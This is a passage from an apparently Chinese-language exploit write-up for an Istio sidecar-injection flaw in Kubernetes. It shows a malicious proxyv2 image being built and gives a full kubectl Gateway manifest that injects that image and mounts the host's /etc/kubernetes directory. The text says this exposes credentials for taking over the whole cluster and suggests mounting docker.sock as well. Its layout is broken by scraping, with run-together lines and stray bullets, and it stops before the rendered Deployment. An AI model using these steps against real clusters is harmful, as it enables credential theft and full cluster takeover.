     /usr/local/bin/pilot-agent-orig $*EOFchmod +x /usr/local/bin/pilot-agentexitdocker tag 0e87xxxxcc5c xxxx/proxyv2:malicious

  
Commit之前，记得把image的entrypoint改为/usr/local/bin/pilot-
agent，接着利用下列的命令完成攻击，注意我覆盖了注解中的：  

  * 

    
    
    inject.istio.io/templates

  
这是为了sidecar使能让k8s controller在创建pod任务的时候，让其注解中的：  

  * 

    
    
    inject.istio.io/templates

  
也为sidecar，这样Istiod的inject webhook就会按照sidecar的模版进行渲染pod资源文件。  
sidecar.istio.io/userVolume和sidecar.istio.io/userVolumeMount，我这里挂载了/etc/kubernetes目录，为了和上面的恶意镜像相辅相成。  
POC的效果就是直接打印出Host中/etc/kubernetes目录下的凭证及配置文件，利用kubelet的凭证或者admin
token就可以提权完成，接管整个集群。当然你也可以挂载docker.sock可以做到更完整的利用。  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    kubectl --as test create -f - << EOFapiVersion: gateway.networking.k8s.io/v1alpha2kind: Gatewaymetadata:  name: gateway  namespace: istio-ingress  annotations:    inject.istio.io/templates: sidecar    sidecar.istio.io/proxyImage: docker.io/shtesla/proxyv2:malicious    sidecar.istio.io/userVolume: '[{"name":"kubernetes-dir","hostPath": {"path":"/etc/kubernetes","type":"Directory"}}]'    sidecar.istio.io/userVolumeMount: '[{"mountPath":"/tmp/test","name":"kubernetes-dir"}]'spec:  gatewayClassName: istio  listeners:  - name: default    hostname: "*.example.com"    port: 80    protocol: HTTP    allowedRoutes:      namespaces:        from: AllEOF

  
创建完gateway后，Istiod inject webhook也按照我们的要求创建了pod。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220413190839.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220413190840.png)  
Deployments最终被渲染如下:  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    